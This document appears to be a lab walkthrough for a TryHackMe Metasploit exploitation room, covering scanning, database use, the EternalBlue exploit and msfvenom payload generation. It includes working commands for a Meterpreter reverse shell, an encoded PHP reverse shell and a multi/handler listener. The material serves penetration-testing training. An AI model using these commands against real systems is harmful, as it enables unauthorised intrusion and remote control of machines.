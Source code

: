 # 🧨 Metasploit: Exploitation

---

## Task 1: Introduction

In this room, you will learn how to:

- Use **Metasploit** for vulnerability scanning and exploitation
- Leverage the **Metasploit database** for managing multi-target engagements
- Generate payloads using **msfvenom**
- Establish **Meterpreter** sessions

📁 **Wordlist path (for brute-force)**:
```
/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
```

---

## Task 2: Scanning

### 🔍 Port Scanning

Metasploit includes several `portscan` modules:

```bash
msf6 > search portscan
```

Recommended modules:
- `auxiliary/scanner/portscan/tcp`
- `auxiliary/scanner/portscan/syn`
- `auxiliary/scanner/portscan/xmas`

To use:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS <target>
run
```

Or use native Nmap:

```bash
msf6 > nmap -sS 10.10.12.229
```

### 🔍 UDP Service Scanning

```bash
use auxiliary/scanner/discovery/udp_sweep
run
```

### 🔍 SMB Scanning

```bash
use auxiliary/scanner/smb/smb_version
run
```

---

## Task 3: The Metasploit Database

### 🚀 Initial Setup (Kali Only)

```bash
systemctl start postgresql
sudo -u postgres msfdb init
```

Launch `msfconsole` and check DB:

```bash
db_status
workspace
```

Create a new workspace:

```bash
workspace -a tryhackme
```

Use Nmap with DB integration:

```bash
db_nmap -sV -p- 10.10.12.229
hosts
services
```

Add scanned hosts to `RHOSTS`:

```bash
hosts -R
```

Query services:

```bash
services -S netbios
```

---

## Task 4: Vulnerability Scanning

Use service-specific scanners, such as:

```bash
use auxiliary/scanner/vnc/vnc_login
info
```

Use options like:

- `PASS_FILE`
- `RHOSTS`
- `THREADS`

Vulnerability scanning relies heavily on fingerprinting, enumeration, and smart module selection.

---

## Task 5: Exploitation

### 🎯 EternalBlue Example

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set LHOST <your_ip>
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Background the session:

```bash
CTRL+Z or background
```

Manage sessions:

```bash
sessions
sessions -i <id>
sessions -h
```

---

## Task 6: Msfvenom

### 🎯 Common Payloads

```bash
msfvenom -l payloads
msfvenom --list formats
```

### 🔧 Generate PHP Reverse Shell

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f raw -e php/base64
```

The `reverse_shell.php` file should be edited to convert it into a working PHP file.

![raw_payload_start](https://github.com/user-attachments/assets/6ea5cd6d-4131-4b92-b520-ac171edb8c74)

Below: Comments removed from the beginning of the file.

![php_tag_fixed](https://github.com/user-attachments/assets/84b6f2cd-2015-4391-b137-48b524535b0d)

Below: End tag added

![php_tag_end](https://github.com/user-attachments/assets/71bc9a00-0c57-47e2-9b51-b142ee66d82e)

### 📡 Set up Listener with Multi Handler

```bash
use exploit/multi/handler
set payload php/reverse_php
set LHOST <your_ip>
set LPORT <port>
run
```

### 📦 Other Output Formats

- ELF: `-f elf`
- EXE: `-f exe`
- ASP: `-f asp`
- Python: `-f raw`

Always match your payload, LHOST, and LPORT in both `msfvenom` and `multi/handler`.

---

## Task 7: Summary

You now understand how to:

- Perform active scanning with Metasploit modules
- Utilize the database and workspace features
- Generate and deploy payloads using msfvenom
- Exploit vulnerabilities like EternalBlue
- Manage sessions with Meterpreter or shell

Metasploit is an indispensable exploitation framework in the modern penetration tester’s toolkit.
